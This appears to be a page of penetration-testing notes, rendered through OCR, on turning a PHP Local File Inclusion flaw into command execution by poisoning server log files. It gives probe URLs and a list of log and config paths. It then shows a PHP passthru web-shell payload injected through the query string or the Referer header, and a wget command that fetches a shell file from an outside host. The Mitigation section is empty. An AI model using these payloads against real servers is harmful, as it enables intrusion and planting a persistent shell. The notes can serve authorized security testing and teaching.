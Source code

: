 **Summary**  

LFI vs LFD:
* _Local File Inclusion_: Where you can EXECUTE files locally on the server.
* _Local File Disclosure_: Where you can SEE the local files on the server.

**Exploitation: PHP Log File Injection**  

STEP #1: Verify existence of LFI/LFD vulnerability.
```
domain.com/?p=somepage.txt
domain.com/?p=pagename-whatever
domain.com/?class=something&function=another 
```

STEP #2: Figure out where the logfiles are. Example locations:
```
/usr/local/etc/php
/etc/php.d/*.ini
/etc/php5/cli/php.ini
/usr/local/lib/php.ini
/etc/php.ini
  
/var/log/apache2/access.log
/var/log/httpd/error_log
/var/log/apache2/error.log
/var/log/httpd-error.log
```

STEP #3: Send a malicious request to inject a payload into the logfile:

  * _PHP passthru() function_: Execute an external program and display raw output
  * Attack vectors:
     * URL query string: `example.com/?q=injectpaylod`
     * HTTP Headers: Referer header.
```
<?php passthru($_GET['cmd']); ?>
<?php passthru(['ls -l']); ?>
```

STEP #4: With command execution, use wget to upload your own files to the server:
```
/var/log/apache2/access.log&cmd=wget http://somedomain.com/shellfile.php
OR
<?php passthru(['w']); ?>
```

Writeups:
* https://roguecod3r.wordpress.com/2014/03/17/lfi-to-shell-exploiting-apache-access-log/
* http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref
* https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

**Mitigation**


## Server-Side Request Forgery
---
